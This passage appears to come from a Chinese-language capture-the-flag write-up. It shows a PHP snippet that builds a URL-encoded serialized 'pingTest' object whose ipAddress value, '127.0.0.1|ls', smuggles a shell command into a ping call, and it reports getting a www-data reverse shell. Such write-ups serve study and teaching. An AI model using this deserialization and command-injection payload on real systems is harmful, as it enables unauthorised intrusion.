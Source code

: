 因此可以如下构造

```
<?php
class pingTest {
    public $ipAddress = "127.0.0.1|ls";
    public $isValid = True;
    public $output = "";

}
echo urlencode(serialize(new pingTest()));
```

![](./images/image-310.png)

拿到**www-data**的反弹**Shell**

![](./images/image-311.png)
